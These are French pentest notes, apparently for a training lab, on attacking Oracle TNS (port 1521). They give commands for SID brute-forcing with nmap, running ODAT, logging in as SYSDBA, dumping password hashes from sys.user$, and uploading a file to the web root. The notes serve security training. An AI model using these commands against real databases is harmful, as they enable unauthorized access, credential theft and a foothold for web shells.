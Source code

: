 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```


Ports : 
- 1521/tcp

## Enumeration

### Installation de l'outil d'énumération
-sid-brute
```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

### nmap - SID Bruteforcing

```shell-session
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

### odat.py
```shell-session
./odat.py all -s 10.129.204.235
```

### SQLplus - Log In
```shell-session
export ORACLE_HOME=/usr/lib/oracle/19.6/client64
export LD_LIBRARY_PATH="$ORACLE_HOME/lib"
export PATH="$ORACLE_HOME:$PATH"

$ sqlplus <user>/<password@"$TARGET_IP"/<DB_SID>

sqlplus <user>/<password@"$TARGET_IP"/<DB_SID> as SYSDBA  <==
```

If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

## Commandes utiles

```sql
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;

```

#### Oracle RDBMS - Extract Password Hashes
```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
```

#### Oracle RDBMS - File Upload
Si la vulnérabilité est exploitable et que le serveur héberge un serveur web dont on arrive à trouver le chemin d'accès à la racine, on peut tenter cela :
```shell-session
$ echo "Oracle File Upload Test" > testing.txt
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[...]
```

Valider l'upload
```shell-session
curl -X GET http://10.129.204.235/testing.txt
```